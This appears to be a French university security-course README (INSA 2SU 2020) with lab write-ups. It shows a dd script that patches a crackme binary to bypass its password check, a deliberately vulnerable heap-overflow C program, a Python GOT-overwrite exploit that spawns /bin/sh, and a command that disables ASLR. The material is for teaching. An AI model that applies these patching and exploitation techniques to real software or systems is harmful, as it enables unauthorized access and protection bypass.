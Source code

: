 # INSA 2SU 2020

https://bitbucket.org/whitewand/2su_2020/src

## Questions

## TD
### TD1

#### Crack emily

`file Td1.original 
Td1.original: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0456a9207dea8aeec6c747f074818b7b8b231b1d, not stripped`

On lance ensuite Radare2. On peut après l'analyse afficher les strings et les symboles.

![Main](./src/img/main.png)

On peut voir que la fonction main vérifie l'input avec la fonction is_valid:

![is_valid](./src/img/is_valid.png)

On peut extraire le mot de passe: **poop**. On peut voir différentes façons de patcher le binaire, en modifiant le mot de passe dans la section .data (offset: 0x984) ou en patchant le .text du programme. On peut Noped (0x90 opcode = no operation) le *je* (offset: 0x8c6) de main, le *jne* (offset: 0x861) de is valid, et change le mov 0 (offset: 0x86d) de is_valid en mov 1.

Petit script qui fait ca avec dd:

```
#!/bin/bash

echo "#Patching files";echo
cp Td1.original Td1_change_password
cp Td1.original Td1_main_nop_je
cp Td1.original Td1_is_valid_no_jne
cp Td1.original Td1_is_valid_change_mov

printf 'pwnd' | dd of=Td1_change_password bs=1 seek=2436 count=4 conv=notrunc
printf '\x90\x90' | dd of=Td1_main_nop_je bs=1 seek=2246 count=2 conv=notrunc
printf '\x90\x90' | dd of=Td1_is_valid_no_jne bs=1 seek=2145 count=2 conv=notrunc
printf '\x01' | dd of=Td1_is_valid_change_mov bs=1 seek=2157 count=1 conv=notrunc

echo "[+] testing";echo
echo "echo 'pwnd' | ./Td1_change_password"
echo 'pwnd' | ./Td1_change_password;echo
echo "echo 'random' | ./Td1_main_nop_je"
echo 'random' | ./Td1_main_nop_je;echo
echo "echo 'random' | ./Td1_is_valid_no_jne"
echo 'random' | ./Td1_is_valid_no_jne;echo
echo "echo 'random' | ./Td1_is_valid_change_mov"
echo 'random' | ./Td1_is_valid_change_mov;echo
```

résultat:

```
#Patching files

4+0 enregistrements lus
4+0 enregistrements écrits
4 bytes copied, 0,000147782 s, 27,1 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000114043 s, 17,5 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000120412 s, 16,6 kB/s
1+0 enregistrements lus
1+0 enregistrements écrits
1 byte copied, 0,000110696 s, 9,0 kB/s
[+] testing

echo 'pwnd' | ./Td1_change_password
Please input a word: That's correct!

echo 'random' | ./Td1_main_nop_je
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_no_jne
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_change_mov
Please input a word: That's correct!
```

#### Patch binaire

### TD2
#### Binwalk
### TD3
#### Heap overflow

Nous allons exploiter un binaire dont voici le code source:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct user {
 char * name;
};

int main(int argc, char **argv){

  struct user *bot;
  bot = (struct user*)malloc(sizeof(struct user*));
  bot->name = malloc(sizeof(char)*20);
  strcpy(bot->name, "botname\0");

  struct user *nick;
  nick = (struct user*)malloc(sizeof(struct user*));
  nick->name = malloc(sizeof(char)*20);
  strcpy(nick->name, "nickname\0");

  char buf[256];
  int size;

  //printf("0x%08x\n", printf);

  printf("Change botname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  strcpy(bot->name, buf);

  printf("Change nickname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  strcpy(nick->name, buf);

  printf("Your message?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  free(bot);
  //free(nick);
  printf("Message sent\n");
  return 0;
}
```

Grâce à un heap overflow de la structure 'bot' nous allons pouvoir modifier l'adresse de la structure 'nick'. Ceci va nous donner une écriture arbitraire. Où pourrions nous écrire quelque chose d'interéssant? La Global offset table qui redirige vers les fonctions de la Glibc me parait une bonne cible. On pourrais par exemple remplacer l'adresse de 'strlen' par 'system' et executer '/bin/sh' à la place du message.

exploit:

```
import sys
import struct
from pwn import *


pad = "AAAAAAAA"*4
read_addr = struct.pack("<Q", 0x555555755030) # adresse de strlen dans la GOT
s1 = pad + read_addr + "\n"

strlen = 0x7ffff7a89190 # adresse de strlen dans la Glibc


# step 2 arbitrary writing
system = struct.pack("<Q", strlen-0xfd10) # adresse de system de la Glibc par offset
s2 = system + "\n" + "/bin/sh\n"

sys.stdout.write(s1 + s2)
```

On peut compiler le programme simplement 

`gcc -o Chatbot charbot.c`

Pour que cet exploit marche il faut désactiver l'ASLR qui va changer l'adresse de base de la Glibc à chaque execution.

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Si on avait une lecture arbitraire, on pourrait leaker une adresse de la Glibc et ainsi calculer l'offset de 'system' même avec la randomisation des adresses de la Glibc.

on obtient bien un shell:
